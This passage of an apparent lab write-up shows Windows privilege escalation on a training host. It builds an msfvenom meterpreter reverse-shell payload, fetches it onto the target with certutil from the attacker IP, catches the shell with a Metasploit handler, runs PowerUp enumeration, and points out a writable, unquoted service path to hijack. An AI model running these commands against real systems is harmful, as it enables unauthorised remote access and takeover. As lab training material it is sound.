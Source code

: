 Note: I got problems when trying to use powershell with the initial shell we got, so I created a payload with msfvenom to get a better meterpreter shell and load powershell:

```shell
# Create payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.113.193 LPORT=9001 -f exe -o shell.exe
python3 -m http.server 80

# Move payload
cd C:\Users\bill\Desktop
certutil.exe -urlcache -split -f http://10.11.113.193/shell.exe shell.exe

# Start multi handler
msfconsole -q
use exploit/multi/handler
options
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.11.113.193
set LPORT 9001
run

# Run shell.exe from the target to trigger reverse shell and get a shell on our multi handler
shell.exe

# Upload powershell
cd C:\Users\bill\Desktop
upload /usr/share/powershell-empire/empire/server/data/module_source/privesc/PowerUp.ps1

# Load powershell into meterpreter
load powershell
powershell_shell
```

Now we can move PowerUp.ps1 and run it with Invoke-AllChecks (I will use PowerUp.ps1 only for enumeration, not for automated exploitation):

```shell
. .\PowerUp.ps1
Invoke-AllChecks
```

If we examine the results, we will see that the service AdvancedSystemCareService9 is vulnerable to Unquoted Service Path and also has CanRestart set to True, but we are also able to modify the file, this means we can replace ASCService.exe with another .exe containing a reverse shell or add a new local admin user:

```shell
<SNIP>
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
<SNIP>
```
